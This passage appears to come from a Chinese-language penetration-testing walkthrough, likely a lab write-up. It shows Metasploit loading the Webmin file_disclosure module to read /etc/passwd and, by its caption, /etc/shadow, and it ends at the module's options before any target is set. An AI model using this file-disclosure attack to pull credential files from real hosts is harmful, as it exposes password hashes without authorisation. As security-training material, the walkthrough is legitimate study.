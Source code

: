      -------------------------------------
    
    ```

-   使用msf进行文件读取(方式2)

-   读取`/etc/shadow`文件

-   ```shell
    └─$ msfconsole             
    [*] starting the Metasploit Framework console...|
                                                      
                                       ____________
     [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
     [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
     [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
     [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
     [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
     [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
     [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
     [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
     [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
     [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
    
    
           =[ metasploit v6.3.16-dev                          ]
    + -- --=[ 2315 exploits - 1208 auxiliary - 412 post       ]
    + -- --=[ 975 payloads - 46 encoders - 11 nops            ]
    + -- --=[ 9 evasion                                       ]
    
    Metasploit tip: Enable HTTP request and response logging 
    with set HttpTrace true
    Metasploit Documentation: https://docs.metasploit.com/
    
    [*] Starting persistent handler(s)...
    msf6 > 
    msf6 > use auxiliary/admin/webmin/file_disclosure
    msf6 auxiliary(admin/webmin/file_disclosure) > show options 
    
    Module options (auxiliary/admin/webmin/file_disclosure):
    
       Name     Current Setting   Required  Description
       ----     ---------------   --------  -----------
       DIR      /unauthenticated  yes       Webmin directory path
       Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
       RPATH    /etc/passwd       yes       The file to download
       RPORT    10000             yes       The target port (TCP)
       SSL      false             no        Negotiate SSL/TLS for outgoing connections
       VHOST                      no        HTTP server virtual host
    
    
    Auxiliary action:
    
       Name      Description
       ----      -----------
       Download  Download arbitrary file
    